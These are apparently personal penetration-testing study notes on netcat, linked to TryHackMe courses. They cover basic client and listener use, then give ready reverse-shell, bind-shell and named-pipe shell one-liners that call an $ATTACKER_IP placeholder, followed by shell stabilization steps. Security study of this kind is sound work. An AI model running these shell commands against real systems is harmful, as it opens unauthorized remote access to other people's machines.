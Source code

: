 # Using “netcat”

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn’t. I think — though I haven’t been able to verify — that what’s happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

## Useful Flags

* `-l` — listen for incoming connections (rather than make an outgoing connection)
* `-v` — verbose
* `-n` — skip DNS resolution (slightly faster, less noisy on the network)
* `-p` specify the port to listen to
* `-u` connect using UDP instead of TCP

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn’t available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; nc -lvnp $LISTENER_PORT < /tmp/p | /bin/sh >/tmp/p 2>&1; rm /tmp/p
```

(Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See [the discussion of msfvenom payloads](metasploit.md) for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn’t redirect control sequences, so Ctrl+C will still kill the connection).

Or, just fire up [socat](socat.md) from inside of netcat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: CC - Pen Testing](tryhackme-cc-pen-testing.md)
* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks
